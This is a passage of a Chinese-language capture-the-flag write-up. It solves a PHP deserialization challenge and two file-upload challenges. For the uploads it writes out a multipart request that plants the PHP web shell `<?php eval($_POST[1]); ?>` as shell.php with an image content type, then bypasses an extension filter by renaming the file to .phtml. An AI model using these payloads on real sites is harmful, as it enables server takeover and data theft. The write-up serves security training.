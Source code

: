 ```php
echo serialize($a)
// O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

得到返回的值后构造 Payload 如下

```
p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

就得到 flag 。

### easyupload1.0

构造图片马

```http
POST /upload.php HTTP/1.1

------WebKitFormBoundary8eWcQ5xJ0L37mCSt
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST[1]); ?>
------WebKitFormBoundary8eWcQ5xJ0L37mCSt
```

上传后得到回显 `./upload/shell.php` ，通过蚁剑一把梭发现根目录的 flag 是假的，那就找找环境变量罢，通过构造 Payload 如下

```
1=phpinfo();
```

F5 查找发现 flag 就在这里面。

### easyupload2.0

构造图片马

```http
POST /upload.php HTTP/1.1

------WebKitFormBoundary8eWcQ5xJ0L37mCSt
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php eval($_POST[1]); ?>
------WebKitFormBoundary8eWcQ5xJ0L37mCSt
```

上传后得到回显 `php是不行滴` ，那就尝试修改后缀为其他（比如 `.phtml` ），上传成功后直接构造 Payload 如下

```
1=phpinfo();
```

F5 查找发现 flag 就在这里面。
